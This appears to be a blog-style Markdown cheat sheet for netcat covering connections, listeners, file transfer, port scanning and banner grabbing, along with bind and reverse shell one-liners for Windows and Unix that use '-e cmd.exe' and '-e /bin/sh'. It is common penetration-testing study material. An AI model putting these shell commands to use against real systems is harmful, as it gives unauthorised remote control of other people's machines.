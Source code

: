 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


# Usage
***
Insert picture here

# Basic  
***
#### TCP Port - Connecting  
`nc -nv <IP> <PORT>`

#### TCP Port - Listening  
`nc -lvp <PORT>`

#### Connect and return HTTP Page  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

#### File Transfer  
`nc -lvp 4444 > output.txt # Receiving End`  
`nc -nv <IP> < input.txt # Sending End`

#### Port Scanning  
`nc -z <IP> <PORT RANGE>`

#### Banner Grabbing  
`echo "" | nc -nv -w1 <IP Address> <Ports>`    

# Windows  
***
#### Bind Shell  
`nc -lvp 4444 -e cmd.exe`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443 # Attacking Machine - Receiving`  
`nc -nv <IP> 443 -e cmd.exe # Target Machine - Sending`

# Nix  
***
#### Bind Shell  
`nc -lvp 4444 -e /bin/sh`  
`nc -nv <IP> 4444`

#### Reverse Shell  
`nc -lvp 443`  
`nc -nv <IP> 443 -e /bin/sh`


# Additional Resources  
***
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
